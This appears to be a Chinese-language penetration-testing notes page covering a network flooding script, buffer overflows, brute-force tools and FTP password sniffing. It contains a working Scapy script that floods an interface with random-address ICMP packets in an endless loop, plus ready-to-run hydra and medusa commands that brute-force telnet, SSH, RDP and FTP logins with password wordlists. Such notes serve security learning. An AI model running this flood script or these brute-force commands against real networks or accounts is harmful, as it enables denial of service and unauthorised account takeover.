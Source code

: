 `pip install Scapy` 数据包生成器
```python
#!python
#!/usr/bin/python

import sys
from scapy.all import *

packet = Ether(src=RandMAC("*:*:*:*:*:*"),
                        dst=RandMAC("*:*:*:*:*:*")) / \
                        IP(src=RandIP("*.*.*.*"),
                            dst=RandIP("*.*.*.*")) / \
                        ICMP()

if len(sys.argv) < 2:
        dev = "eth0"
else:
        dev = sys.argv[1]

print "Flooding net with random packets on dev " + dev

sendp(packet, iface=dev, loop=1)
```

具体看这[Python网络攻防之第二层攻击](http://drops.xmd5.com/static/drops/tips-8547.html)


<br><br>


# 缓冲区溢出
缓冲区是一块用于存放数据的临时内存空间，它的长度事先已经被程序或者操作系统定义好。缓冲区类似于一个杯子，
写入的数据类似于倒入的水。缓冲区溢出就是将长度超过缓冲区大小的数据写入程序的缓冲区，
造成缓冲区的溢出，从而破坏程序的堆栈，使程序转而执行其他指令。
非安全字符串`strcpy()、sprintf()、gets()、strcat、scanf、vscanf`

# 爆破与扫描

## Kail
`hydra -l administrator -P pass.txt -V -t 32 IP telnet/ssh/rdp/ftp `
`medusa –h 192.168.235.96 –u root –P /pentest/passwords/wordlists/rockyou.txt -t 10 –M ssh`  注意密码匹配后不会在最后显示


<br>
# 密码嗅探

## FTP
命令行输入`ftp`,在输入`open 192.168.1.100`,会提示输入帐号密码
里面的命令可以使用`?`或`help`查看
